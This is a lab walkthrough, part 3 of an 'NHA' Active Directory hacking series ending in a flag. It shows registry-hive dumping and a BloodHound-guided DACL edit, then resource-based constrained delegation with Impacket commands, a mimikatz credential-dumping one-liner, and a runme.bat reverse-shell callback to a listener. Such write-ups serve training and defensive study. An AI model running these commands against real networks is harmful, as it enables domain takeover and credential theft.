### NHA - Part 3

#### Reg save... win

So we are local admin and probably could do really cool nxc tricks and such - but - lets just grab the reg hives for now and inspect them.



In our C2 we can download them



And Mythic will even hold them for us so we can deal with them at our leisure



Dumping the hives:



And if wanted pretty colours we could also use `nxc`:



But everything lines up - just remember in `secretsdump` that the machine account will be a domain account so mentally

$MACHINE.ACC = ACADEMY/SQL$

#### What can we do?

Based on the results found we have domain machine credentials for `SQL$`, we can go through our "Valid credentials" checklist (if your notes are setup based on scenarios).

- Check for a user list
- Check for open shares
- Spray against winrm
etc

##### Bloodhound

We can also leverage bloodhound to get some information - if we had proper credentials we could look to use the proper [sharphound](https://github.com/SpecterOps/SharpHound/releases), or [rusthound](https://github.com/g0h4n/RustHound-CE). Considering we just have hashes - we can still use [bloodhound-python](https://github.com/dirkjanm/BloodHound.py/tree/bloodhound-ce).

:::info
We will be ensuring to use Bloodhound CE with all our tooling and actual Bloodhound itself. Mixing the tooling around can have unfavorable results.
:::

We can use a command like the following to pull a bit of data.

```bash
bloodhound-ce-python -u 'SQL$' --hashes aad3[redacted]0eb1a06d  -d academy.ninja.lan -dc DC-AC.academy.ninja.lan -c All -ns 192.168.56.20 --dns-tcp
```



Once we've ingested the data we can search for `SQL$` and mark it as owned, and then use the "Shortest Path from Owned" Query (Clicking on the folder in the top left will open the pre-defined queries):



We can see here a potential path to exploit as well, so lets take a quick look at that.

Following along with the example right from bloodhound we can populate the data:

```bash
dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal 'SQL$' -target-dn 'CN=COMPUTERS,DC=ACADEMY,DC=NINJA,DC=LAN' 'academy.ninja.lan'/'SQL$' -hashes aad3b4[Redacted]1a06d
```

The `containerDistinguishedName` line can be found if we click on the `COMPUTERS@ACADEMY.NINJA.LAN` node:



Also now that you've seen them side by side, you can see how to match up any future nodes to their "Distinguished Name", under pressure (such as in an exam, these GUI's can be a nice life saver).

And so now what can we do? Well we've changed access control between `SQL$` and `WEB$`, so if we were to take another bloodhound and peek at our options what happens?



Perfect! A nice straight forward Resource-Based Constrained Delegation

#### RBCD && Web

From here we can again just follow the steps presented in bloodhound.

*First we create a computer account*

```bash
addcomputer.py -method SAMR -computer-name 'ATK$' -computer-pass 'Iloveyou1!' -dc-host DC-AC.academy.ninja.lan -domain-netbios academy 'academy/SQL$' -hashes aad[redacted]1a06d
```

- We use SAMR instead of LDAPS since LDAPS will fail (LDAPS not setup in the lab)
- Computer name is `ATK$`, password of `Iloveyou1!`



Then we'll set the permissions for the created machine account to delegate permissions to the targeted machine.

```bash
rbcd.py -delegate-from 'ATK$' -delegate-to 'WEB$' -action 'write' -dc-ip 192.168.56.20 'academy/SQL$' -hashes aad3[redacted]06d
```



Then we will pull ourselves a service ticket for CIFS as the "administrator" account.

```bash
getST.py -spn 'cifs/web.academy.ninja.lan' -impersonate 'Administrator' 'academy/ATK$:Iloveyou1!' -dc-ip 192.168.56.20
```



Then we can set the ticket to our `KRB5CCNAME` to use with our tooling

*Fish shell*

```bash
set -x KRB5CCNAME Administrator@cifs_web.academy.ninja.lan@ACADEMY.NINJA.LAN.ccache
```

*If using bash*

```text
export krb5ccname=/path/to/ccache.ccache
```

#### Exfiltration Time

Trying `smbexec`



With `smbexec` we were able to get a semi shell - and then I quickly just caught our `hta` payload again :)



Well - we're system and we gave up on being stealthy last time, lets just create some creds, and see what we have.



:::info
The Merlin Agent has a mimikatz binary built in for us to use, just type "mimikatz" and you will be presented with a prompt for your arguments. Im a fan of the one liner I found on [hacktricks](https://hacktricks.boitatech.com.br/windows/stealing-credentials):

```bash
"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
```
:::



This ended up having the `Frank` user hash! Good evidence to not trust just the normal `lsa`, `sam` dumps and to always check under every potential credential source.

Now if we wanted to test other tools other than mimikatz (through mythic), We can try and use `-M lsassy` or `-M nanodump` in `nxc` to dump this data, or the normal [lsassy](https://github.com/login-securite/lsassy) itself.



...This caused my lab to crash, so thankfully we were able to get it through mimikatz and our C2. However, your mileage may vary and hopefully it worked out for you. I have a screenshot in my notes from when I did this lab a while back where it worked so... who knows? Perhaps there was an update and the on box defender is being cranky.

Ok lets just grab our flags:

:::info
We could have just got our flags through Mythic but for fun you could also follow:

[This section](https://mayfly277.github.io/posts/GOADv2-pwning-part8/#seimpersonateprivilege-to-authoritysystem) and use mayflys powershell callback + runme.bat to get a more interactive shell

```text
cd www
echo "@echo off" > runme.bat
echo "start /b $(python3 payload.py 192.168.56.1 4445)" >> runme.bat
echo "exit /b" >> runme.bat
python3 -m http.server 8080
```

[Payload.py Code Here](https://mayfly277.github.io/posts/GOADv2-pwning-part7/#command-execution-to-shell)

Upload in mythic with `upload` and then use `shell C:\path\to\runme.bat`
:::



Flag: `NHA{Computer_ContainerOOwnage!}`

Onward! Next step we will check out what we can do with our new set of hashes!
